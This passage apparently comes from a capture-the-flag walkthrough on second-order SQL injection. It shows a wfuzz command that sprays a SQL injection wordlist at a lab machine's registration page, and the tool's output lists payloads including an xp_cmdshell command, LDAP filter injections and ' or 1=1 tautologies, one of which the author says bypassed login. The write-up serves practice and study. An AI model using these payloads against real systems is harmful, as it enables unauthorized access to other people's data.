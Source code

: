 
{% include image.html image_alt="b6096c25.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/b6096c25.png" %}


### 2nd-order SQL Injection

Hmm. Let's use `wfuzz` to inject common SQL injection strings into the registration page just to see what we get. Here, I'm soliciting `200` responses to see what's going on with the registration. Typically, a successful registration will return a `302` response.

```
# wfuzz -w /usr/share/wfuzz/wordlist/Injections/SQL.txt -t 20 --sc 200 -d "username=dickFUZZ&password=password&confirm_password=password" http://10.10.10.97/register.php

********************************************************
* Wfuzz 2.3.3 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.97/register.php
Total requests: 125

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000083:  C=200     40 L      116 W         1689 Ch        "t'exec master..xp_cmdshell 'nslookup www.google.com'--"
000096:  C=200     40 L      115 W         1643 Ch        "%27%20or%201=1"
000100:  C=200     40 L      110 W         1625 Ch        "&apos;%20OR"
000105:  C=200     40 L      113 W         1637 Ch        "*|"
000104:  C=200     40 L      113 W         1636 Ch        "%7C"
000107:  C=200     40 L      113 W         1647 Ch        "*(|(mail=*))"
000109:  C=200     40 L      113 W         1654 Ch        "*(|(objectclass=*))"
000113:  C=200     40 L      113 W         1636 Ch        ")"
000115:  C=200     40 L      110 W         1625 Ch        "&"
000112:  C=200     40 L      113 W         1636 Ch        "%28"
000119:  C=200     40 L      110 W         1625 Ch        "' or 1=1 or ''='"
000117:  C=200     40 L      113 W         1636 Ch        "!"
000120:  C=200     40 L      110 W         1625 Ch        "' or ''='"

Total time: 24.13528
Processed Requests: 125
Filtered Requests: 112
Requests/sec.: 5.179139
```

Long story short, I tried all the payloads and `' or 1=1 or ''='` manage bypass the login and display the following notes. :triumph:


{% include image.html image_alt="ad70d8fa.png" image_src="/899d5167-9d46-41c7-83e5-6bcfcc43550a/ad70d8fa.png" %}

